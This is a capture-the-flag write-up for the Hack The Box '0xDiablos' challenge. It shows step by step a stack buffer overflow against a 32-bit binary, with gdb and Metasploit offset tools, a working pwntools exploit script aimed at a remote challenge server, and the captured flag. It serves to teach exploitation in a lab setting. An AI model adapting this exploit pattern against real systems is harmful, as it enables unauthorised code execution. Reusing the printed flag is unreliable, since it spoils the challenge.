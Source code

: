# Enumeration

Download file 'You know 0xDiablos.zip' extract file with 7z:

```shell
7z x You\ know\ 0xDiablos.zip                                                                                                       main 

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,16 CPUs x64)

Scanning the drive for archives:
1 file, 3058 bytes (3 KiB)

Extracting archive: You know 0xDiablos.zip
--
Path = You know 0xDiablos.zip
Type = zip
Physical Size = 3058

    
Enter password (will not be echoed):hackthebox
Everything is Ok

Size:       15656
Compressed: 3058
```

Take a look on vuln file extracted:
```shell
file vuln                                                                                                                           main 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
```

To complete this practice it is necessary to understand buffer overflow. Read the following content, I did some practices with basic c program:

[reto](scripts/follow.md)

To complete is recomended:  ghidra, gdb, python pwn, gdb-peda

Open vuln file with ghidra, check functions and we find flag function with fgets, fgets like others can be overfloaded since var has been defined as char local_50 [64].

```code
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Lets create pattern with 200 chars:

```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Now try buferoverfload to vuln with this string with gdb:
```shell
gdb ./vuln 
GNU gdb (GDB) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
(gdb) run
Starting program: /home/darthv/git/badorius/vulnhub/0xDiablos/enumeration/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x33674132 in ?? ()
(gdb) 

```

Search offset:
```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 33674132 -l 200
[*] Exact match at offset 188
```

Search flag address:
```shell
(gdb) disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:	push   %ebp
   0x080491e3 <+1>:	mov    %esp,%ebp
   0x080491e5 <+3>:	push   %ebx
   0x080491e6 <+4>:	sub    $0x54,%esp
   0x080491e9 <+7>:	call   0x8049120 <__x86.get_pc_thunk.bx>
   0x080491ee <+12>:	add    $0x2e12,%ebx
   0x080491f4 <+18>:	sub    $0x8,%esp
   0x080491f7 <+21>:	lea    -0x1ff8(%ebx),%eax
   0x080491fd <+27>:	push   %eax
   0x080491fe <+28>:	lea    -0x1ff6(%ebx),%eax
   0x08049204 <+34>:	push   %eax
   0x08049205 <+35>:	call   0x80490b0 <fopen@plt>
   0x0804920a <+40>:	add    $0x10,%esp
   0x0804920d <+43>:	mov    %eax,-0xc(%ebp)
   0x08049210 <+46>:	cmpl   $0x0,-0xc(%ebp)
   0x08049214 <+50>:	jne    0x8049232 <flag+80>
   0x08049216 <+52>:	sub    $0xc,%esp
   0x08049219 <+55>:	lea    -0x1fec(%ebx),%eax
   0x0804921f <+61>:	push   %eax
   0x08049220 <+62>:	call   0x8049070 <puts@plt>
   0x08049225 <+67>:	add    $0x10,%esp
   0x08049228 <+70>:	sub    $0xc,%esp
   0x0804922b <+73>:	push   $0x0
   0x0804922d <+75>:	call   0x8049080 <exit@plt>
   0x08049232 <+80>:	sub    $0x4,%esp
   0x08049235 <+83>:	push   -0xc(%ebp)
   0x08049238 <+86>:	push   $0x40
   0x0804923a <+88>:	lea    -0x4c(%ebp),%eax
   0x0804923d <+91>:	push   %eax
   0x0804923e <+92>:	call   0x8049050 <fgets@plt>
   0x08049243 <+97>:	add    $0x10,%esp
   0x08049246 <+100>:	cmpl   $0xdeadbeef,0x8(%ebp)
   0x0804924d <+107>:	jne    0x8049269 <flag+135>
   0x0804924f <+109>:	cmpl   $0xc0ded00d,0xc(%ebp)
   0x08049256 <+116>:	jne    0x804926c <flag+138>
   0x08049258 <+118>:	sub    $0xc,%esp
   0x0804925b <+121>:	lea    -0x4c(%ebp),%eax
   0x0804925e <+124>:	push   %eax
   0x0804925f <+125>:	call   0x8049030 <printf@plt>
   0x08049264 <+130>:	add    $0x10,%esp
   0x08049267 <+133>:	jmp    0x804926d <flag+139>
   0x08049269 <+135>:	nop
   0x0804926a <+136>:	jmp    0x804926d <flag+139>
   0x0804926c <+138>:	nop
   0x0804926d <+139>:	mov    -0x4(%ebp),%ebx
   0x08049270 <+142>:	leave  
   0x08049271 <+143>:	ret    
End of assembler dump.
(gdb) 
```

EBP from flag function is: 0x080491e2 = 08 04 91 e2 = \xe2\x91\x04\x08
Now let's generate A with offset number of chars needed concatenate with flag address:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"' | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAâ
Hurry up and try in on server side.
```

Now try to send to server with nc, but seem doesn't works:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"'|nc 46.101.53.80 31815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```

It's time to play with python, after some research I found python [pwntools](http://docs.pwntools.com/en/latest/). Let's try to run our first python pwn script.
In order to work on server side, we need offset, flag ebp addres, and two parameters  from fu nfunction flag, on ghidra we can get the adresses of both 0xdeadbeef and 0xc0ded00d:
![ghidra parms](IMG/ghidra_parms.jpg)

YES! It's fun python time: 
 
```python
from pwn import *

offset = b"A" * 188
fourbytes = b"AAAA"
flag_ebp = p32(0x080491e2, endian="little")
parm_one = p32(0xdeadbeef, endian="little")
parm_two = p32(0xc0ded00d, endian="little")
serverip = "178.62.13.127"
port = 30495

exploit = offset + flag_ebp + fourbytes + parm_one + parm_two

server = remote(serverip, port)
#server = elf.process()
server.sendlineafter(":", exploit)
server.interactive()
```

```shell
python pwn_exploit.py                                                                                                main 
[+] Opening connection to 178.62.13.127 on port 30495: Done
/home/darthv/git/badorius/vulnhub/0xDiablos/FootHold/venv/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc0\xde
HTB{0ur_Buff3r_1s_not_healthy}$       [*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to 178.62.13.127 port 30495
[*] Got EOF while sending in interactive
```

Voilà!!! 
